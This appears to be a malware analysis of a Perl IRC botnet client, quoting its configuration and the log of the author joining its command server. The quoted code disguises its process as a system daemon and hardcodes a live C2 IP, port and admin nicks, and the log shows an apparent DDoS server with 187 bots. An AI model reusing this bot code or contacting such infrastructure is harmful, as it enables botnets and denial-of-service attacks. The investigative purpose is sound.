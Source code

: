 Let's see the connection details:


        my @ps = ("/usr/local/apache/bin/httpd -DSSL","/sbin/syslogd","[eth0]","/sbin/klogd -c 1 -x -x","/usr/sbin/acpid","/usr/sbin/cron","[bash]");
        my $processo = $ps[rand scalar @ps];

        $servidor='112.216.147.83' unless $servidor;
        my $porta='6667';
        my @canais=("#.f");
        my @adms=("Vlad","Alex","x","Dragos","Culea");

        # Anti Flood ( 6/3 Recomendado )
        my $linas_max=10;
        my $sleep=5;

        my $nick = getnick();
        my $ircname = getident2();
        my $realname = "uname -sr";
        chop (my $realname = `uname -sr`);


The nick and username:

        sub getnick {
          return "MiKuTs".int(rand(1000));
        }

        sub getident2 {
                my $length=shift;
                $length = 3 if ($length < 3);

                my @chars=('a'..'z','A'..'Z','1'..'9');
                foreach (1..$length)
                {
                        $randomstring.=$chars[rand @chars];
                }
                return $randomstring;
        }

So I joined:

        21:37 !112.216.147.83 *** Looking up your hostname
        21:37 !112.216.147.83 *** Checking Ident
        21:37 !112.216.147.83 *** No ident response
        21:37 !112.216.147.83 *** Couldn't look up your hostname
        21:37 -!- Welcome to the Internet Relay Network MiKuTs1247
        21:37 -!- Your host is alex.and.vlad.ddos.server, running version beware1.5.7
        21:37 -!- This server was created Tue Jul 13 2004 at 20:36:17 GMT
        21:37 -!- alex.and.vlad.ddos.server beware1.5.7 dgikoswx biklmnoprstv
        21:37 -!- SILENCE=15 WHOX WALLCHOPS WALLVOICES USERIP CPRIVMSG CNOTICE MODES=6 MAXCHANNELS=100 MAXBANS=45 are supported by this server
        21:37 -!- NICKLEN=30 TOPICLEN=800 AWAYLEN=160 KICKLEN=800 CHANTYPES=#& PREFIX=(ov)@+ CHANMODES=b,k,l,rimnpst CASEMAPPING=rfc1459 are supported by this server
        21:37 -!- There are 173 users and 14 invisible on 1 servers
        21:37 -!- 1 unknown connection(s)
        21:37 -!- 3 operator(s) online
        21:37 -!- 6 channels formed
        21:37 -!- I have 187 clients and 0 servers
        21:37 !alex.and.vlad.ddos.server Highest connection count: 187 (187 clients)
        21:37 -!- - alex.and.vlad.ddos.server Message of the day
        21:37 -!- - 2015-9-8 2:05
        21:37 -!- - - #####                          __    _
        21:37 -!- - - #####                     _wr""        "-q__
        21:37 -!- - - #####                  _dP                 9m_
        21:37 -!- - - #####                _#P                     9#_
        21:37 -!- - - #####               d#@                       9#m
